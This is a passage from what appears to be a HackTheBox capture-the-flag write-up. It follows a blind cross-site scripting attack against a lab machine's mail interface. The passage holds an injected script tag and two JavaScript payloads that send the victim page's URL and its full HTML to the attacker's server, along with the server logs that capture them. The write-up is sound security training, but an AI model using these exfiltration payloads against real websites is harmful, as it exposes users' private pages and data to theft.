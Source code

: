 

    <script src="http://10.10.14.6/xss.js"></script>



A minute later:



    10.10.11.112 - - [24/Aug/2021 11:27:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:27:04] "GET /xss.js HTTP/1.1" 404 -



### Orient

#### URL

In previous challenges where I had this kind of XSS access (like
[CrossFit](/htb-crossfit.md#identify-xss) and
[BankRobber](/htb-bankrobber.md#xss---admin-login)), I had
a specific target in mind, some action I wanted to do as the admin. In
this case, I've seen very little of the site, so I'll need to do some
orienting.

I'll write a simple JS script that sends the current location of the
page back to my server:



    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("GET", "http://10.10.14.6/" + document.location, false);    
    exfilreq.send(); 



After a minute, there's a request to get the payload, followed by a
request showing the url:



    10.10.11.112 - - [24/Aug/2021 11:42:03] "GET /xss-1.js HTTP/1.1" 200 -
    10.10.11.112 - - [24/Aug/2021 11:42:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:42:04] "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1" 404 -



Nice. In that 404 I can see that the current location my script is
executing in is `http://mail.stacked.htb/read-mail.php?id=2`. That looks
like some kind of mail endpoint. I'll try setting that subdomain in
`/etc/hosts` and visiting it, but it must be only on localhost.

#### Source

I can update the JavaScript request slightly to pull the full page HTML:



    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
    exfilreq.send(document.documentElement.outerHTML); 
